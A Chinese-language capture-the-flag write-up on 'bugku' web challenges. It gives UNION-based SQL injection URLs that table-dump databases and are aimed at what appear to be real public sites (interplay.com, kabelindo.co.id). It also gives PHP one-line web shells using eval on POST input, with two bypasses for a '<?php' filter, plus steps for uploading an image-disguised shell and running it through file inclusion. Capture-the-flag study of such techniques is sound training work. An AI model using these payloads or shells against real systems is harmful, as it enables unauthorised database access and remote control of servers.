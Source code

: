 ```yaml
---
title: bugku_web
date: 2019-03-12 15:38:18
tags:
    - CTF
categories:
    - CTF
    - writeup
---
```

## 实战1-注入
```bash
payload:http://www.interplay.com/games/support.php?id=-41 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,table_name,18,19 from information_schema.tables where table_schema=database()#
```
## 实战2-注入
```bash
payload:http://www.kabelindo.co.id/readnews.php?id=-18 UNION SELECT 1,table
_name,3,4,5 from information_schema.tables where table_schema=database()%23
```
<!--more-->
## phpcmsV9
robots.txt 直接爆flag(估计是本题的bug)
## 文件包含2

首先进入界面，F12发现了源码中有upload.php而且./upload/可读，猛一看像是文件上传，但是题目的提示是文件包含啊！而且在Network中找到了这个

![xx](http://upload-images.jianshu.io/upload_images/4838174-7e1ff8e60d6b7a26?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
哪个tip转义过来就是`include.php`那我们就按照文件包含去尝试一下
结果尝试了一堆方法光是返回NAIVE!!!….回归上传的思路吧…
上传图片小马（事实上并没有进行MIME检验，直接替换内容即可）
发现过滤了`<?php` 和`?>`,这里给出两种绕过方法

```php
<?=@eval($_POST['cmd']);
<script language="php">eval($_POST['cmd']);</script>
```

![xx](http://upload-images.jianshu.io/upload_images/4838174-d7a67bba0c225305?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

嗯，然后再upload.php中是不能以php运行的，所以需要再include.php(index.php)中的file变量来包含upload目录下的图片文件！

![xx](http://upload-images.jianshu.io/upload_images/4838174-2e4d866b636461ff?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


